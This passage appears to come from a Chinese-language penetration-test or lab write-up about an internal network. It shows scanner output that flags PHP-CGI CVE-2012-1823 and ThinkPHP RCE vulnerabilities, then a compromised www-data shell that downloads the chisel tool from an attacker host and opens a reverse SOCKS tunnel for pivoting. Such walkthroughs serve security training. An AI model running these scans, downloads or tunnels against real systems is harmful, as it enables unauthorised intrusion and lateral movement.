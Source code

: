 ```bash
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://10.85.101.3        code:200 len:931    title:None
[+] FCGI 10.85.101.3:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[+] InfoScan http://10.85.101.4        [phpMyAdmin]
[+] PocScan http://10.85.101.4 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-thinkphp5023-method-rce poc1
```

## Net 10.85.101.0/24

```plaintext
phpMyAdmin - 10.85.101.4
Thinkphp - 10.85.101.3
Redis - 10.85.101.2
```

## Thinkphp 端口转发

由于 `10.85.101.0/24` 内的服务较多，所以直接进行 socks 转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:44:11--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel_1.9.1_linux_amd64'

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.06s

2024-07-25 03:44:11 (136 MB/s) - 'chisel_1.9.1_linux_amd64' saved [8654848/8654848]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x chisel_1.9.1_linux_amd64 &
[1] 833
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10002:socks
2024/07/25 03:45:09 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:45:09 client: Connected (Latency 2.88257ms)
```

